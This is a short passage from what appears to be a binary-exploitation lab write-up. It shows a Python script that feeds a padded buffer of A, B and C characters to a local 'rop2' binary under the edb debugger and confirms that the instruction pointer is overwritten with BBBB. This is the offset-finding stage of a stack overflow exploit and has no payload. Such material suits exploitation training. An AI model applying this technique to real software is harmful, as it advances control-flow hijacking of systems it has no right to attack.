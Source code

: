 
```py
import os

eip_offset = 52

buffer = "A"*52
eip = "B" * 4
free_space = "C" * 1000

os.system("edb --run ./rop2 "+ buffer + eip + free_space )
```



EIP is BBBB
![](2021-02-19-15-10-13.png)



![](2021-02-19-15-10-07.png)
